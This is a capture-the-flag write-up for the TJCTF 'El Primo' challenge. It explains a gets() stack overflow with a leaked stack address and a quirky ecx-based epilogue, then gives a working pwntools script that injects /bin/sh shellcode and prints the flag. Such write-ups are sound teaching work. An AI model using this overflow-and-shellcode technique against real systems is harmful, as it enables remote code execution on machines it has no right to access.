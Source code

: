 # tjctf: binary

Written by agcdragon

_My friend just started playing Brawl Stars and he keeps raging because he can't beat El Primo! Can you help him?_

`nc p1.tjctf.org 8011`

## El Primo

This challenge is where the confusion begins. It's 10 points higher than OSRS, with a couple-dozen (106-85 at the time of writing) more solves.

It is also ostensibly easier than OSRS. The authors for these two challenges are different, and it's easy to assume that that's the reason for the point disparity, but that rationale doesn't account for the difference in solve count.

We can scrap that mystery and head on to the challenge. IDA shows a distressingly simple `main()`, and `checksec` isn't much different from what it was in OSRS:

```c
int main(){
  char s[0x28];
  puts("What's my hard counter?");
  printf("hint: %p\n", s);
  gets(s);
  return 0;
}
```
<p align="center">
<img src="checksec.png">
</p>

Unlike OSRS, the stack address is given for free. We can send a pure pwntools `/bin/sh` shellcode, which coincidentally fits perfectly into the width of `len(s[])+4`, making the final payload as simple as `shellcode + addr_of_s`.

Or at least, it _should've_ been. Indelibly, the binary meets a segfault if you try something as simple as `r.sendline(sh+p32(s))`:

<p align="center">
<img src="peda.png">
</p>

The assembly for `main()` here is a little special. It doesn't just store the old ebp & eip, but it also stores a number of other registers, which you can see popping back into the stack at the end of the function frame:

<p align="center">
<img src="asm.png">
</p>

To get the correct address to pop off from `ret`, we need to make ecx-4 point to where the base pointer should be. Ergo, the stack will look like

```
+-----------------s[44]----------------+--------r---------+----------->
| garbage | addr_of_s+0x28+8 | garbage | addr_of_s+0x28+8 | shellcode >
+--44-12--+---------4--------+----8----+--------4---------+----------->
```
The shellcode has to fall after `r`, instead of at `s[]`, because the shellcode provided by pwntools is too long to fit^1^. Once all that's accounted for, we'll get a shell.

<p align="center">
<img src="shell.png">
</p>

## flag

`tjctf{3L_PR1M0O0OOO!1!!}`

## code
```py
from pwn import *
r_offset = 0x28+4
from re import findall
r = remote('p1.tjctf.org', 8011)
s = int(findall('0x[0-9a-f]*', r.recvline()+r.recvline())[0], 16)
sh = asm(shellcraft.i386.linux.sh(), arch='i386')
r.sendline(p32(s+r_offset+4).rjust(r_offset-8).ljust(r_offset)+p32(s+r_offset+4)+sh)
print(r_offset, len(sh))
r.interactive()
```
## footnotes
1. Smaller payloads from e.g. shell-storm.org would work just as well here.
